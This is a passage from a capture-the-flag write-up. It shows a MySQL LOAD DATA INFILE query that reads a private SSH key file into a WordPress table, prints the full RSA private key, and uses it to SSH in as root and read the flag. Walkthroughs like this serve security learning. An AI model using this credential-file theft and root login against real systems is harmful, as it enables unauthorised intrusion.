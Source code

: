 	```sql
	LOAD DATA INFILE '/backup/id_rsa' REPLACE INTO TABLE wordpress.wp_links (link_notes);

	Notes:
	(link_notes) says to drop the contents into the link notes column

	```

	To view the now dumped contents: 

	```sql
	select * from wp_links
	```

7. After a ton of click select delete we are left with an SSH key

	```
	-----BEGIN RSA PRIVATE KEY-----                                 
	MIIEpAIBAAKCAQEA3Z35DpTcnm4kFkkGp6iDXqvUNH+/+hSDOY6rXsa40WMr7rjc
	tHh8TgOBFZ6Rj5VzU/jY8O0qHxiPVn7BCYKhqyp1V1l9/ZCPRSjRLYy62dVTiHUt
	ZbiPiY9+biHIsQ/nZfwiHmwlb0sWDoyFvX3OL/3AFMcYpZ4ldHQuwszJF4DeTV33
	ruSBoXIiICQyNJBHTboVel+WXAfMNumYMVNrtrwpNoD7whv9Oa2afUejXMJL42Rw
	8Xhab59HIIL9fl68FqgggVI4X3d/fzqKKGyoN5JxBLmQTCiVxhxTMv9OS0MhdSg6
	Nh3+lf/wUuweUQXqmohvETntwwGs8jnJGCyeDwIDAQABAoIBAHGVRpG/n/cfMiWt
	1dhWGMaLwJ4Ln6QXoU39nj1cEltWvayDWLKyUdtWFnGzLJ1vloVCNEX+96iqWMSX
	AG7UYfGtOCjFuDoePh/PFK6IwzdkC4UTsWnCFucFAWKGtCpzoUB24jG/ccxBqpNY
	WC9PbD7SigDcLfisPjwaU+EJPkNpl93VBk1BCJRbvWF+Wl/si3wmMZ0YRoyIAF5L
	oBsq935xH8kJcixSVYKjG3hMUZfiLoQB+p/IFsxDlfGLE+M1esTZ5GIRjj+t7vBN
	l2JZTY893gjfQzUv2WrJXzMhJvWGzOCsRRc4gOSeS6GYiip8glqg8iWHpWdgF6i9
	oAQx5pkCgYEA7oTmvy0cXvhPjkEbrizCCqf6sXfZps5e6eminTTBGA8NW/Uq+SQv
	5JEYxvIL+qMH6cKkc8rBaNhgy3vnv+UgE1PUFI0UWFGKb+OpzzvY/zkmf03enxrl
	SK+QXH4FS9f7leivZRVEWBq1kDVIqHZtybYGg0etOvHYX0GwqV2UTy0CgYEA7dv0
	bxz6CO9bhxxpXRrrykX2Z57J3JW2I3yVkCY+4Y6x106K11X+b1547kEZk40i2Ugc
	iE6jcYIRiYNiSgb0Ph4uxZHFlvBr8JA2fGHYIAnGRcoc1Gzgz5omRvU9H8uy5ipO
	LyZ2dnMgXRVOjuXoN4UZR2rgWmJVLD1q7eKnh6sCgYAnVOUUC2VNR9celx/wZdMN
	nMubLi9G8Wr3WZ6GG+fnhrvmORSABvaa005pqApPp0irxHwH2BxypJO5mlIJ88eJ
	SF6FkQoU0kVo0/rxgGX1GEB/56BZTj8W8FR23BUVf6UuADPEEHC3spfUEuVLWlQa
	WhjS1yP6v1y1wIhYNWU6dQKBgQDbZ1zdcXkh7MgcpRR7kW2WM1rK0imZk29i5HSB
	dwXhwWJCHGztnKEJ0bby7pHNDQ7sJhxLj14sQbIzikGLz0ZUVjsGeyQryrGGQUBB
	E2/sfZeqoHhfad8lICfWpDgxsA/hR3y++VekgyWDNzgzj9bX/6oFuowgUzwFhtGv
	hLbL6QKBgQCvcDMmWs2zXwmIo1+pIHUUSv2z3MWb0o1dzHQI/+FJEtyQPwL1nCwg
	bJaC0KT45kw0IGVB2jhWf0KcMF37bpMpYJzdsktSAmHdjLKdcr6vw2MNpRapaNQe
	On0QmLzbpFr9kjqorinKVkjk/WlTo9rKDSrLiUueEVYTxEMCi92giw==
	-----END RSA PRIVATE KEY----- 
	```
	I selected to save that onto my desktop as name `id_rsa`

	Once saved run:

	```
	chmod 600 id_rsa
	```

#### Root box login
1. We can now ssh into the root machine with the flag

	```
	ssh -i ~/Desktop/id_rsa root@172.30.0.3
	```

2. Hey check that out! We are in.

	```
	cat /root/flag.txt

	Output:
	gigem{w0rd_pr3ss_b3st_pr3ss_409186FC8E2A45FE}
	```

